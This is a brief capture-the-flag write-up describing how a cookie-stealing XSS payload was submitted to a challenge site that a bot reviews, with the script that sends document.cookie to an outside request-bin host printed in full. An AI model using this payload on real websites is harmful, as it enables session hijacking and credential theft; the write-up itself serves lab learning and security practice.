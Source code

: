## Santa's Letters 

> Santa wanted to receive letters as usual this year, but in a covid-friendly way, so he built a website! Be nice!

We are given a website to submit letters to Santa. Since "Santa" will view each of the notes, we can grab Santa's cookie using an XSS attack. We do this by putting javascript code to send a request to a server along with his cookie. Here is the payload:

```
<script>
var xhr=new XMLHttpRequest(); xhr.open('GET', 'https://enh7fwgyjeyaa.x.pipedream.net/'.concat(document.cookie), true);xhr.send();
</script>
```

Looking at my request bin, I am given a request with the flag (the flag was the cookie).

> IceCTF{I_h0pe_yoU_h4venT_b33n_n4ugHty_th1s_y3aR}